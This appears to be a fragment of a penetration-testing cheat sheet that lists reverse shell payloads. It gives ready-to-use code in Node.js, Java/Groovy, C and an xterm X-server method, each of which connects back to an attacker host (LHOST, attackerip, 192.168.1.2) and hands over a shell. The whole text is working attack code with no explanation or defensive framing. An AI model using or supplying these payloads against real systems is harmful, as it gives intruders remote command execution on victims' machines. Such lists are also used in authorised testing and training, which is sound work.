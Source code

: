 ```javascript
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(LPORT, "LHOST", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```

### **Java Reverse Shell**

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### **C Reverse Shell**

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main ()

{
const char* ip = "192.168.1.2";
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(4444);
inet_aton(ip, &addr.sin_addr);
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));
for (int i = 0; i < 3; i++)
{
dup2(sockfd, i);
}
execve("/bin/sh", NULL, NULL);
return 0;
}
```

### XTERM Reverse Shell

```bash
# Start an open X Server on your system (:1 – which listens on TCP port 6001)
apt-get install xnest
Xnest :1

# Then remember to authorise on your system the target IP to connect to you
xterm -display 127.0.0.1:1

# Run this INSIDE the spawned xterm on the open X Server
xhost +targetip

# Then on the target connect back to the your X Server
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
```
